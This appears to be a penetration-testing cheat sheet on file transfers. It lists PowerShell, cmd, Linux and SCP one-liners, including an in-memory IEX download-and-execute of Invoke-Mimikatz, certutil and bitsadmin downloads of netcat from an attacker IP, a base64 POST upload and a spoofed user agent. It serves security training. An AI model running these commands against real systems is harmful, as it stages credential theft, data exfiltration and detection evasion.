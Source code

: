 # FILE TRANSFERS

## PowerShell

- **[Invoke-WebRequest https://<snip>/PowerView.ps1 -OutFile PowerView.ps1](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-webrequest)**: Download a file with PowerShell.
- **[IEX (New-Object Net.WebClient).DownloadString('https://<snip>/Invoke-Mimikatz.ps1')](https://docs.microsoft.com/en-us/powershell/scripting/learn/deep-dives/everything-about-expressions?view=powershell-7.2)**: Execute a file in memory using PowerShell.
- **[Invoke-WebRequest -Uri http://10.10.10.32:443 -Method POST -Body $b64](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-webrequest)**: Upload a file with PowerShell.

## Windows Command Line (cmd.exe)

- **[bitsadmin /transfer n http://10.10.10.32/nc.exe C:\Temp\nc.exe](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/bitsadmin)**: Download a file using Bitsadmin.
- **[certutil.exe -verifyctl -split -f http://10.10.10.32/nc.exe](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/certutil)**: Download a file using Certutil.

## Linux / Unix

- **[wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh](https://linux.die.net/man/1/wget)**: Download a file using Wget.
- **[curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh](https://linux.die.net/man/1/curl)**: Download a file using cURL.
- **[php -r '$file = file_get_contents("https://<snip>/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'](https://www.php.net/manual/en/function.file-get-contents.php)**: Download a file using PHP.

## SCP (Secure Copy Protocol)

- **[scp C:\Temp\bloodhound.zip user@10.10.10.150:/tmp/bloodhound.zip](https://linux.die.net/man/1/scp)**: Upload a file using SCP.
- **[scp user@target:/tmp/mimikatz.exe C:\Temp\mimikatz.exe](https://linux.die.net/man/1/scp)**: Download a file using SCP.

## Invoke-WebRequest with User Agent

- **[Invoke-WebRequest http://nc.exe -UserAgent [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome -OutFile "nc.exe"](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-webrequest)**: Invoke-WebRequest using a Chrome User Agent.
